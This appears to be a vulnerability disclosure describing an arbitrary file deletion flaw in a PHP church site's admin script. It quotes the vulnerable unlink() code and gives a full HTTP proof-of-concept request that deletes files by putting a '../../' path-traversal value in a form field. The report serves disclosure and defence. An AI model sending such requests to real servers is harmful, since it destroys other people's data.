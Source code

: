### Vulnerability file address

In line 414 of `church/admin/app/web_crud.php`, `@unlink("../../assets/images/" . $_POST['old_portfolio_img']);`,` $_POST['old_portfolio_img']` parameters have not been restricted, which causes any file to be deleted

```php
if ($_FILES['portfoliophoto']['tmp_name'] != '') {
            $filepath = "../../assets/images/" . generateUniqueFileName($_FILES["portfoliophoto"]["name"]);

            if (move_uploaded_file($_FILES["portfoliophoto"]["tmp_name"], $filepath)) {
                $img5 = basename($filepath);
                @unlink("../../assets/images/" . $_POST['old_portfolio_img']);
            }
        }
```

### POC

```http
POST /church/admin/app/web_crud.php HTTP/1.1
Host: www.church.net
Connection: close
Cookie: PHPSESSID=hl5noegsdjn1ru7skoi8tmqco3
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Length: 385

------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="update6"

1
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="old_portfolio_img"

../../16.txt
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="portfoliophoto";filename="aaa.php"

this is test
------WebKitFormBoundaryTZGvWJmfBtMK9O8p--
```

### Attack results pictures

First, we create a `16.txt` file in the `church/` directory

![image-20250505162652543](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051626596.png)

Then we execute the above poc to attack

![image-20250505162750539](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051627570.png)

Files are deleted after the attack is successful

![image-20250505162804704](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051628737.png)
